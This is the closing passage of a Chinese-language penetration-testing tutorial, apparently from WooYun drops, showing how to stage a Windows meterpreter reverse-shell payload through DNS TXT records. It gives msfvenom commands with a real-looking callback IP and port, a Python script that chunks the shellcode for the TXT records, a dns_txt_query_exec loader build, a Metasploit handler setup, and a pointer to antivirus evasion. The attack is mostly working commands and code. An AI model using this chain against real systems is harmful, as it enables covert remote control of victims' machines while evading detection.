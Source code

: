 ```
☁  ~  sudo msfvenom -p windows/meterpreter/reverse_tcp LHOST=103.238.225.222 LPORT=8887 -e x86/alpha_mixed Bufferregister=EDI -f raw > reverse.txt

```

使用下面的脚本对该文件进行切割：

```
#!/usr/bin/env python
#coding=utf-8
def txt(string,length):
    return [string[x:x+length] for x in range(0,len(string),length)]
with open('out.txt','w+') as f:
    line = open('reverse.txt','r').read()
    line= txt(line,255)
    for txts in line:
        f.writelines(txts+'\n\n\n\n')

```

输出如下：

![Alt text](http://drops.javaweb.org/uploads/images/e31a289bfe402d4bd7032fba8a96ea14364a5470.jpg)

将这三行分别添加到a.domain,b.domain,c.domain的TXT记录中:

![Alt text](http://drops.javaweb.org/uploads/images/aa4d75411a5dd8451d0f2e43cb3dd1a8539538c5.jpg)

生成exe:

```
☁  ~  sudo msfvenom -p windows/dns_txt_query_exec DNSZONE=evi1cg.me -f exe > test.exe

```

msf开启监听：

```
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST x.x.x.x
LHOST => x.x.x.x
msf exploit(handler) > set LPORT 8887
LPORT => 8887
msf exploit(handler) > exploit

```

运行exe，获得meterpreter:

![Alt text](http://drops.javaweb.org/uploads/images/9b2b7c1689f968c5ae75c5ae7b11910c6894169c.jpg)

至于免杀，可以直接生成c格式的shellcode,然后按照[打造免杀payload](http://zone.wooyun.org/content/22796)来做。

0x05 小结
=======

* * *

本文主要介绍一种执行命令的方式以及nishang的脚本使用，希望能对大家有帮助。

本文由evi1cg原创并首发于乌云drops，转载请注明